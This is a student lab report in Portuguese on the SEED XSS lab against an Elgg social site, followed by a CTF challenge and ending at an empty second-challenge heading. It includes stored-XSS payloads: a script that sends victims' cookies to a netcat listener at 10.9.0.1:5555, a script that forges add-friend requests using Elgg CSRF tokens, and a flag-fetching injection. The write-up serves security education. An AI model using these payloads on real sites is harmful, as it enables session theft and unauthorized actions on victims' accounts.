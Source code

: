 # Trabalho realizado na Semana #10

## Tarefa 1
Efetuou-se o *log in* na plataforma http://www.seed-server.com sob o perfil de Alice forncido. Para efetuar o XSS, alterou-se a secção *Brief Description* para o código indicado. 

![/imgs10/brief.png](/imgs10/brief.png)

Imediamente após o guardar das alterações, como esperado, obteve-se o *pop-up*:

![/imgs10/popup.png](/imgs10/popup.png)

Experimentou-se também com o exemplo usando um *form* e apesar de apenas se usar um *link* exemplificativo, pode comprovar-se que efetivamente funcionaria: 

![/imgs10/withForm.png](/imgs10/withForm.png)

## Tarefa 2

Alterou-se novamente a secção *Brief Description* desta vez para:
``` js
<script>alert(document.cookie);</script>
```

Como resultado, surgiu o *pop up* com as *cookies* do utilizador mal as alterações foram guardadas.

![/imgs10/cookies.png](/imgs10/cookies.png)

## Tarefa 3

Inicialmente, na *shell*, correu-se o seguinte comando por forma a iniciar o servidor TCP:
``` shell
nc -lknv 5555
```

Seguidamente mudou-se *Brief Description* para efetuar o ataque:

``` js
<script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >'); </script>
```

Após guardar as alterações no perfil, verificou-se a chegada das *cookies* do utilizador autenticado, neste caso, da Alice ao terminal onde se tinha iniciado o servidor.

![/imgs10/cookiesAlice.png](/imgs10/cookiesAlice.png)

Por forma a melhor testar a solução encontrada, efetuou-se a autenticação de Boby e acedeu-se ao perfil de Alice.

Sem surpresa, chegou ao terminal as cookies de Boby.

![/imgs10/cookiesBoby.png](/imgs10/cookiesBoby.png)


## Tarefa 4

Por forma a perceber como executar o ataque, foi necessário compreender como funciona o mecanismo de adicionar um amigo. Com a ferramenta *HTTP Header Live* detetaram-se pedidos deste género a cada novo amigo:

![/imgs10/amizadeAliceBob.png](/imgs10/amizadeAliceBob.png)

Com a repetição de pedidos percebeu-se que a variável *friend* era igual a um identificador para a pessoa que se queria adicionar como amiga. Por outro lado, a restante parte do *link* era constituída pela sequência *ts*, *token*, *ts* e *token* que são calculados no *script* fornecido. Como tal, bastava modificar o script para

```js
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; 
var token="&__elgg_token="+elgg.security.token.__elgg_token;
//Construct the HTTP request to add Samy as a friend.
var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token+ts+token;
//Create and send Ajax request to add friend
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}
</script>
```

e colocá-lo na secção *About me* do perfil do Samy. 

Como espectável, iniciando sessão como outro utilizador e visitanto o perfil de *Samy* este é adicionado como amigo,

![/imgs10/sammyFriend.png](/imgs10/sammyFriend.png)


### Questão 1

Em Elgg, as todas as ações requerem *tokens* CSRF (por questões de segurança) que, por vezes, têm de ser gerados manualmente. As linhas 1 e 2 são a geração destes *tokens*. Mais informações sobre estes *tokens* podem ser vistas no seguinte link: http://learn.elgg.org/en/stable/guides/actions.html#security

### Questão 2

Se apenas fosse usado *Editor Mode*, o texto inserido teria os sues carateres especiais "<", ">" codificados como se mostra abaixo.

![/imgs10/editorMode.png](/imgs10/editorMode.png)

Desta forma, o código não seria reconhecido como *script* e, logo, não seria possível corrê-lo.

## CTF - Desafio 1
O enunciado sugere que o formulário de se procurem fragilidades no formulário de submissão. 

Tentou-se *SQLInjection* sem sucesso. Com mais sucesso, ao colocar 
``` js
<script> alert("hello");</script>
```

surgiu no ecrã :

![/imgs10/alert.png](/imgs10/alert.png)

Pode-se assim concluir que o *site* é vulnerável a *XSS*.

Surgiu assim a questão de que código injetar. Reparou-se num botão muito sugestivo *Give the flag*.

Desta forma tentou-se replicar o comportamento deste botão em *JavaScript*. 

Assim, injetou-se o seguinte código no formulário: 

``` js
<script> getFlag = function () {
    var xmlHttp = new XMLHttpRequest();
    xmlHttp.open( "POST", "");
    xmlHttp.send("giveflag");
    return xmlHttp.responseText; }; 
    console.log(getFlag())
    </script>
```

Inicialmente, nada surgiu, mas, mal o pedido foi avaliado, a *flag* surgiu no ecrã

![/imgs10/flag1.png](/imgs10/flag1.png)


## CTF - Desafio 2